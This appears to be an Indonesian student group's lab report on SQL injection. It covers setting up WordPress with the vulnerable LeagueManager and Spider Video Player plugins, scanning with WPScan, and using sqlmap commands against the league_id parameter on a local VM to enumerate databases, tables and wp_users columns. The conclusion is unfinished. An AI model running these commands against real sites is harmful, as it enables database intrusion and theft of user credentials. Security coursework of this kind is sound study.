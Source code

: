 # Tugas 2
**Anggota Kelompok**

| NRP         | Nama                        |
|-------------|-----------------------------|
| 5114100018  | Alek Nur Fatman             |
| 5114100077  | M Hanif Amrizal             |
| 5114100144  | Ilham Aulia Majid           |

## Pendahuluan
Sql Injection : SQL injection adalah sebuah teknik hacking yang menyalahgunakan celah keamanan pada database dari aplikasi. cara kerjanya adalah dengan menyisipkan perintah-perintah SQL melalu URL untuk di eksekusi oleh database.


## Dasar Teori

#### OS Ubuntu 16.04
Ubuntu 16.04 adalah sistem operasi distribusi linux yang berbasis debian dan bersifat Open Source.

#### Wordpress
Wordpress adalah aplikasi open source yang digunakan sebagai blog engine. Wordpress menggunakan bahasa pemrograman PHP dan basis data MySQL. Wordpress juga digunakan sebagai CMS (Content Management System) karena memiliki kemampuan untuk dimodifikasi dan disesuaikan dengan kebutuhan penggunanya.

#### Spider Video Player
Spider Video Player adalah salah satu plugin Wordpress yang menyediakan fitur untuk memasukkan video ke website Wordpress. 

#### League Manager
League Manager adalah plugin yang digunakan untuk menampilkan hasil dari sebuah pertandingan pada website wordpress.

#### WPScan
WPScan adalah tools vulnerability scanner untuk CMS Wordpress yang memeriksa keamanan WordPress menggunakan metode “black box”. WPScan ini ditulis dengan bahasa ruby.

#### sqlmap
Sqlmap adalah tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. dengan melakukan serangan SQL injection seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.


## Instalasi Wordpress, Vulnerable Plugins, dan Tools untuk Penetrasi

#### Instalasi LAMP
1. Buka terminal.
2. Masukkan perintah :
```
sudo apt-get install apache2 mysql-server php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### Instalasi Wordpress
1. Unduh wordpress tarball di http://wordpress.org/latest.tar.gz
2. Ekstrak ke direktori /var/www/html dengan perintah `tar -xvzf wordpress-4.8.3.tar.gz -C /var/www/html `.
3. Buka `http://localhost/wordpress/wp-admin/install.php` dan ikuti prosedur yang ada.

#### Instalasi Plugin Video Player
1. Unduh plugin di https://wordpress.org/plugins/player/
2. Ekstrak plugin ke /var/www/html/wordpress/wp-content/plugins dengan perintah `unzip player.1.5.20.zip -d /var/www/html/wordpress/wp-content/plugins`.

#### Instalasi Plugin League Manager
1. Unduh plugin di https://wordpress.org/plugins/leaguemanager/
2. Ekstrak plugin ke /var/www/html/wordpress/wp-content/plugins dengan perintah `unzip leaguemanager.4.2-RC1.3.zip -d /var/www/html/wordpress/wp-content/plugins`.

#### Aktivasi Plugin
1. Buka halaman `http://localhost/wordpress/wp-admin/plugins.php`.
2. Centang LeagueManager dan Spider Video Player.
3. Pilih aksi `Activate` lalu klik `Apply`.

#### Instalasi WPScan
1. Instal prerequisites dengan perintah `sudo apt-get install git libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev`.
2. Clone repository WPScan `git clone https://github.com/wpscanteam/wpscan.git`.
3. Pindah ke direktori WPScan `cd wpscan`.
4. Masukkan perintah `sudo gem install bundler && bundle install --without test development`.
5. Untuk menjalankan WPScan gunakan ruby `ruby wpscan.rb [options]`.

#### Instalasi sqlmap
1. Clone repository sqlmap `https://github.com/sqlmapproject/sqlmap.git`.
2. Pindah ke direktori WPScan `cd sqlmap`.
5. Untuk menjalankan WPScan gunakan python `python sqlmap.py [options]`.

## Uji Penetrasi SQL Injection

#### Uji WPScan
1. Update terlebih dahulu database WPScan dengan perintah `ruby wpscan.rb --update`.
2. Jalankan perintah `wpscan -u [alamat_wordpress] --enumerate vp`, contoh: `ruby wpscan.rb --u http://localhost/ --enumerate vp`. alamat localhost ; 10.0.2.15
3. Output :
![hasil_WPScan1](Hasil%20WPScan/wpscan1.png)
![hasil_WPScan2](Hasil%20WPScan/wpscan2.png)
![hasil_WPScan3](Hasil%20WPScan/wpscan3.png)



#### Uji sqlmap
1. Isikan terlebih dahulu data di leaguemanager.
2. Buka halaman plugin leaguemanager http://10.0.2.15/wp-admin/admin.php?page=leaguemanager.
3. Isi nama league kemudian klik tambah
4. Masuk ke terminal dan jalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbs `. Perintah ini digunakan untuk mencari tahu database apa yang digunakan.
5. hasil output : 
![sqlmap1](Hasil%20sqlmap/sqlmap%20cek%20database%201.png)
![sqlmap2](Hasil%20sqlmap/sqlmap%20cek%20database%202.png)
6. Untuk mengetahui tabel apa saja yang ada dalamnya jalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbms mysql --table`
7. hasil output :
![sqlmap3](Hasil%20sqlmap/sqlmap%20melihat%20isi%20tabel%201.png)
![sqlmap4](Hasil%20sqlmap/sqlmap%20melihat%20isi%20tabel%202.png)
![sqlmap5](Hasil%20sqlmap/sqlmap%20melihat%20isi%20tabel%203.png)
![sqlmap6](Hasil%20sqlmap/sqlmap%20melihat%20isi%20tabel%204.png)
8. Untuk mengetahui colom apa saja yang ada di tabel wp-users database wordpress dengan menjalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbms mysql --columns -D wordpress -T wp_users`
9.  hasil output : 
![league](Hasil%20sqlmap/sqlmap%20mencari%20isi%20kolom%20tabel%20wp_user%201.png)
![league2](Hasil%20sqlmap/sqlmap%20mencari%20isi%20kolom%20tabel%20wp_user%202.png)

## Kesimpulan dan Saran
1. Tools WPScan dapat mengetahui celah keamanan wordpress yang dapat di tembus
2. 
